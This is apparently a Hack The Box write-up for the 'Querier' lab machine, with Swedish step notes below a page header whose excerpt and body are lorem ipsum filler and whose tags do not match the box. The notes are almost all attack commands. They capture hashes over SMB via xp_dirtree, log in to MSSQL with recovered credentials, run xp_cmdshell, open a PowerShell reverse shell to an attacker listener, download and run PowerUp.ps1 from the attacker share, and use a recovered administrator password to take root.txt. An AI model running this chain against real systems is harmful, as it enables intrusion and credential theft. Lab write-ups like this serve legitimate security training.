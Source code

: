 ```yaml
---
layout: single
title: Querier - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-06-01
classes: wide
header:
  teaser: /assets/images/htb-writeup-querier/querier_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-querier/querier_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


## USER ##
^^^^^^^^^^

LISTENER:
python smbserver.py -smb2support -ip 10.10.14.3 reporting /tmp 

RUN: (för mssql query som ger user/pw)
python mssqlclient.py -windows-auth querier/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
SQL> EXEC master.sys.xp_dirtree '\\10.10.14.3\tmp'

ANSLUT MED RÄTT CREDS:
python mssqlclient.py querier/mssql-svc:corporate568@10.10.10.125 -windows-auth

> xp_cmdshell type C:\Users\mssql-svc\Desktop\user.txt

-----------------------------------------------------------------------------------------
## ROOT ##
^^^^^^^^^^

Starta smbserver samt netcat för PowerShellTCP:
# python smbserver.py -smb2support -ip 10.10.14.11 querier /tmp
# nc -lnvp 4444

ANSLUT SOM MSSQL-SVC:
SQL > xp_cmdshell move \\10.10.14.11\querier\Invoke-PowerShellTcp.ps1 C:\Users\mssql-svc\Desktop\pENIS.ps1
SQL > xp_cmdshell "powershell -file c:\Users\mssql-svc\Desktop\pENIS.ps1 -Reverse -IPAddress 10.10.14.11 -Port 4444"

PS > IEX (New-Object Net.WebClient).DownloadString('\\10.10.14.11\querier\PowerUp.ps1'); Invoke-AllChecks
 [*] Checking for cached Group Policy Preferences .xml files....
 Usernames : {Administrator}
 Passwords : {MyUnclesAreMarioAndLuigi!!1!}

Plocka root:
# python smbclient.py querier/Administrator:MyUnclesAreMarioAndLuigi\!\!1\!@10.10.10.125
# use C$
# cd Users/Administrator/Desktop
# get root.txt
 
